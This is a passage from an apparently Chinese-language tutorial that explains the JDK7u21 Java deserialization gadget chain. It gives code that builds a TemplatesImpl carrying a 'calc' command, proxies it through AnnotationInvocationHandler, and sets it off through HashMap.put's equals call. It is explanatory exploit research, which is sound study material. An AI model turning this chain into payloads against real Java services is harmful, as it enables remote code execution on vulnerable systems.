 ```Annotationinvocationhandler``` 类 ```invoke``` 方法的调用涉及 ```Java``` 的动态代理机制，动态代理这里不再详细叙述，直构造代码:


```java
    
TemplatesImpl templatesImpl = createTemplatesImpl("calc", TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);

HashMap map = new HashMap();
map.put(zeroHashCodeStr, "sss");

// 使用 Reflections 反射框架创建 AnnotationInvocationHandler 对象，并设置 type 和 memberValues 字段值
InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").
                newInstance(Templates.class, map);

final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class,1);
allIfaces[0] = Templates.class;

//  生成代理类，实现 Templates 接口，代理对象为创建的 AnnotationInvocationHandler 对象
Templates templates = (Templates)Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), allIfaces, tempHandler);

templates.equals(templatesImpl);
```

通过执行 ```templates.equals(templatesImpl);``` 最终触发我们想要执行的语句.


### ***HashMap class***


通过以上我们知道，最终需要调用 ```templates.equals(templatesImpl);``` 才能触发我们想要执行的语句.

在 ```HashMap``` 的 ```put``` 方法中存在 ```key.equals(k)``` 语句，如果 ```key``` 为 ```templates``` 对象，```k``` 为 ```templatesImpl``` 对象，则正好触发我们构造的调用链.但是执行 ```key.equals(k)``` 语句需要有前提条件:

1、HashMap 存入两个 key 的 hash 值相等，并且 indexFor 计算的 i 相等;

2、前一个 HashMap 对象值的 key 值不等于现在存入的 key 值;

3、现在存入的 key 值为 templates 对象，上一个存入的 key 值为 templatesImpl 对象.


```java
public V put(K key, V value) {
    if (key == null)
        return putForNullKey(value);
    int hash = hash(key);
    int i = indexFor(hash, table.length);
    for (Entry<K,V> e = table[i]; e != null; e = e.next) {
        Object k;
        if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
            V oldValue = e.value;
            e.value = value;
            e.recordAccess(this);
            return oldValue;
        }
    }

    modCount++;
    addEntry(hash, key, value, i);
    return null;
}
```
